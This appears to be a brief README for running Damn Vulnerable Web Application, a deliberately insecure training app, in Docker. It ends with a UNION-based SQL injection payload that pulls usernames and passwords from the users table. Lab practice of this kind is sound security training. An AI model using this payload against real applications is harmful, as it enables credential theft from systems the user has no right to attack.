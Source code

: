 # Damn Vulnerable Web Application

docker run --rm -p 80:80 --name dvwa milovbahg/dvwa:latest

Click 'create/reset-db' on the first page, default difficulty is set to impossible (you may want to drop that down!)

Run the following command in the SQL Injection scenario to test:

%' and 1=0 union select null, concat(user,':',password) from users #
